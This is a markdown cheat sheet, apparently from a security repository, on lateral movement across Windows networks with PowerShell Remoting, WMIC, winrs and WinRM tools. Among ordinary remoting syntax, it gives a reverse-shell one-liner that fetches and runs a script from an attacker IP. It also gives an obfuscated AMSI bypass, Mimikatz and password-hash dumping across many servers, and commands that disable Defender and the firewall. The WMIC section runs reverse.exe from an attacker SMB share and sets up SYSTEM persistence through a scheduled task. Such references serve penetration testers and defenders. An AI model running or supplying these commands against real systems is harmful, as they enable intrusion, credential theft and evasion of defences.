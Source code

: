 # Powershell Remoting

## Permissions: Administrator OR user in Remote Management Users group

## Requirements: WinRM (port 5985/5986) open

## Use case: You want modern, interactive access to a remote system (preferred for clean environments). Use it with valid credentials.

## Ways to use:

 - One-to-One

 - Interactive

 - Stateful

 - Executes in a new process (wsmprovhost)

 - Execute command on multiple systems at once

 - Runs background jobs

 - -Credential parameter can be used to pass credentials

## Create a session

##### Enable PowerShell Remoting on local system (Requires elevated privileges)

    Enable-PSRemoting

##### Create new PSSession

    New-PSSession -Computer Srv01.Security.local

##### Connect to PSSession

    Enter-PSSession -Computer Srv01.Security.local

##### Connect to PSSession with a trusted remote account

    Enter-PSSession -ComputerName IP/FQDN -Credential Administrator

##### Store session as variable

    $Session = New-PSSession -Computer Srv01.Security.local

### If you have sessions stored as variables then commands with the -Computername parameter can be replaced with -Session $session.

## Run commands on target

    Invoke-Command -Computername Srv01.Security.local -ScriptBlock {Whoami;Hostname}
    Invoke-Command -Computername Srv01.Security.local -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'

##### Run locally loaded functions on target system

    Invoke-Command -Computername Srv01.Security.local -ScriptBlock ${Function:Test-Function}

##### Load script into remote session

    Invoke-Command -FilePath 'C:\Tools\Invoke-Mimikatz.ps1' -Session $Session

##### Reverse shell

    Invoke-Command -ComputerName Srv01.Security.local -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://<IP>/Shell.ps1')"}

##### Bypass AMSI

    Invoke-Command -session $Session -scriptblock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )}

## Run commands on multiple systems

##### Execute commands on multiple systems

    Invoke-Command –Scriptblock {Get-Process} -ComputerName (Get-Content c:\Serverlist.txt) 

##### Execute scripts on multiple systems

    Invoke-Command –FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content c:\Serverlist.txt)

##### Execute functions on multiple systems

    Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content c:\Serverlist.txt)

##### Bypass AMSI on multiple systems

    Invoke-Command -Scriptblock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} -ComputerName (Get-Content c:\Serverlist.txt)

## Disable Defenses

##### Turns off Defender, sets an exclusion path

    Invoke-Command -ComputerName Srv02.Security.local -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true;` Set-MpPreference -DisableIOAVProtection $true;` Set-MPPreference -DisableBehaviorMonitoring $true;` Set-MPPreference -DisableBlockAtFirstSeen $true;` Set-MPPreference -DisableEmailScanning $true;` Set-MPPReference -DisableScriptScanning $true;` Set-MpPreference -DisableIOAVProtection $true;` Add-MpPreference -ExclusionPath "C:\Windows\Temp";`}

##### Turns off all firewall profiles

    Invoke-Command -ComputerName Srv02.Security.local -ScriptBlock {Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}

##### Turns off Defender and Firewall on multiple systems

    Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true;` Set-MpPreference -DisableIOAVProtection $true;` Set-MPPreference -DisableBehaviorMonitoring $true;` Set-MPPreference -DisableBlockAtFirstSeen $true;` Set-MPPreference -DisableEmailScanning $true;` Set-MPPReference -DisableScriptScanning $true;` Set-MpPreference -DisableIOAVProtection $true;` Add-MpPreference -ExclusionPath "C:\Windows\Temp";` Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}` -ComputerName (Get-Content c:\Serverlist.txt)

# Wmic

##### Execute calc.exe on remote system

    wmic /node:10.10.10.5 /user:moe process call create "cmd.exe /c calc.exe"

##### Executing reverse shell on remote system from a SMB share hosted on attackers system

    wmic /node:10.10.10.5 /user:moe process call create "cmd.exe /c \\10.10.10.200\Share\reverse.exe"

##### Setting up persistence with schtasks on a remote system to execute a reverse shell every minute/

    wmic /node:10.10.10.5 /user:moe process call create "schtasks /create /sc minute /mo 1 /tn "Persistence" /tr \\10.10.10.200\Share\reverse.exe /ru "SYSTEM""

# Winrs

##### Connect remotely to system and execute a command

    winrs -r:IP/FQDN -u:workstation\administrator -p:Password@987 COMMAND

##### Get an interactive shell

    winrs -r:IP/FQDN -u:workstation\administrator -p:Password@987 CMD

# Get a remote shell using Docker

    docker run -it quickbreach/powershell-ntlm

Then, in the session, run

    $creds = Get-Credential (Enter credentials)

Connect to a remote session

    Enter-PSSession -ComputerName IP/FQDN -Authentication Negotiate -Credential $creds

# Get a remote shell using Ruby Script

Link: https://raw.githubusercontent.com/Alamot/codesnippets/master/winrm/winrm_shell_with_upload.rb

Modify the script by giving a valid username, password and endpoint.

Once modified, run it with ruby

    ruby winrm_shell_with_upload.rb

